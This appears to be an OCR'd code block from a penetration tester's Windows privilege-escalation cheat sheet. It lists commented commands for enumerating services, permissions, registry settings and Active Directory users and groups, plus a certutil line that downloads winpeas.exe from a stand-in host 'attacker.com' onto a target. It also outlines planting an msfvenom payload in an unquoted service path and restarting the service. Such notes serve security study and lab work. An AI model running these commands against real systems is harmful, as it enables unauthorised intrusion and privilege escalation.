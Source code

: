   ```cmd

  certutil.exe -urlcache -f http://attacker.com/winpeas.exe winpeas.exe
  # fetch file from attacker machine to target - like wget or curl

  # check for DLL hijacking vulns using ProcMon

  # check for unquoted service path vuln
  # requires permission to write to a folder on the path and to restart the service

  wmic service get name,displayname,pathname,startmode
  # check running services with unquoted paths

  sc qc unquotedsvc
  # check binary path of service

  .\accesschk64.exe /accepteula -uwdq "C:\Program Files\"
  
  # check privileges on folders in binary path and find a writable folder
  # after this, we can generate a payload using msfvenom
  # move payload to target in the correct path, setup listener, and restart service
  sc stop unquotedsvc

  sc start unquotedsvc

  # Active Directory enum

  net user /domain
  # list all users

  net user joe.bloggs /domain
  # info for particular user

  net user Guest /domain
  # info for guest account

  net group /domain
  # list all groups

  net group "Admins" /domain
  # info for group

  net accounts /domain
  # enumerate password policy

  # we can enumerate AD using PowerShell as well
  # using cmdlets like Get-ADUser, Get-ADGroup, Get-ADObject and Get-ADDomain
  # or using tools such as Sharphound/Bloodhound

  C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe
  # check Autoruns for any programs - the path will differ

  reg query HKLM\Software\Policies\Microsoft\Windows\Installer
  reg query HKCU\Software\Policies\Microsoft\Windows\Installer
  # check for AlwaysInstallElevated

  Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
  # check for exploits related to regsvc

  C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
  # check for file permissions on executable files

  icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
  ```